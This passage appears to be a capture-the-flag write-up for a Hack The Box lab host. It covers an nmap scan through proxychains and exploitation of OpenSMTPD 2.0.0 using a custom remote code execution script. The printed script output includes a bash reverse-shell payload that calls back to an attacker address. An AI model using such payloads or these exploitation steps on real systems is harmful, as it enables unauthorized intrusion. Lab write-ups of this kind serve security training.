 Seems like port 25 (SMTP) is open on the host.

```bash
root@darkness:~# proxychains4 -q nmap -sT -Pn -n -sC -sV -p 25 10.241.251.113 
Nmap scan report for 10.241.251.113
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 
Service Info: Host: smtp.realcorp.htb
```

Seems like the hostname of the server is `smtp.realcorp.htb` and it is running `OpenSMTPD (Version 2.0.0)` . Let us add the host to our /etc/hosts file:

```bash
root@darkness:~# cat /etc/hosts | tail -n 4
10.10.10.224    srv01.realcorp.htb
10.197.243.31   wpad.realcorp.htb
10.197.243.77   ns.realcorp.htb proxy.realcorp.htb
10.241.251.113  smtp.realcorp.htb
```

Let us try to compromise this host for further lateral movement. For this let us search for an exploit for OpenSMTPD v2.0.0.

## Initial Shell - Exploiting OpenSMTPD

In order to get our initial shell, let us search for possible exploit of OpenSMTPD.

### OpenSMTPD v2.0.0 exploit-research

A [Google search](https://www.google.com/search?q=OpenSMTPD+2.0.0+exploit), reveals that there is an remote code execution vulnerability in this version of OpenSMTPD. After a bit of research, I created my own [exploit-script](https://github.com/chr0x6eos/HTB) based on the exploit of [this article](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/). The source-code of the exploit is available on [my GitHub](https://github.com/chr0x6eos).

### OpenSMTPD exploitation

In order to exploit the vulnerability, we need a valid-email address. If we remember back, we already found an email at the beginning of our HTTP-Proxy enumeration: `j.nakazawa@realcorp.htb`. Let us run our exploit script to send the payload to the user:

```bash
root@darkness:~# proxychains4 -q python3 exploit.py
[+] Opening connection to 10.241.251.113 on port 25: Done
[*] Using reverse-shell payload: bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'
[*] Sending payload to j.nakazawa@realcorp.htb!
[*] Closed connection to 10.241.251.113 port 25
```

